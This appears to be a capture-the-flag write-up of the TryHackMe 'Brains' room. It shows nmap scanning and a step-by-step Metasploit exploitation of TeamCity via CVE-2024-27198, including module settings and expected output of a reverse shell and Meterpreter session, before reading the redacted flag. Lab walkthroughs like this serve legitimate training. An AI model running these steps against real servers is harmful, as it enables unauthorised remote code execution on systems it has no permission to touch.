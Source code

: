 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step: run in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
   
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
```bash
nmap -sV -p 50000 10.10.252.192
```

# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
*Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)

*We need to set the correct options before running the exploit.*
```bash
set RHOSTS 10.10.252.192     # Target IP address
set RPORT 50000              # Target port where TeamCity is running
```
*Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
```bash
run   #or exploit
```
# Expected Output:
*If the target is vulnerable and the configuration is correct, you should see output similar to this:*
```bash
[*] Started reverse TCP handler on 10.10.X.X:4444
[*] Sending stage (57971 bytes) to 10.10.X.X
[*] Meterpreter session 1 opened ...
```
*This confirms that you now have a meterpreter shell on the target machine!*

# Now That We Are in Meterpreter...Navigate the file system
```bash
cd /home/cd ubuntu
ls
```
*Once you find it, read its contents*
```bash
cat flag.txt
```
![Nmap Scan](Brain%20Room%20flag.JPG)

# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file.
*Instead, here is a simulated example of what the output would look like:*

```bash
meterpreter > cat flag.txt
THM{redacted_for_policy}
```
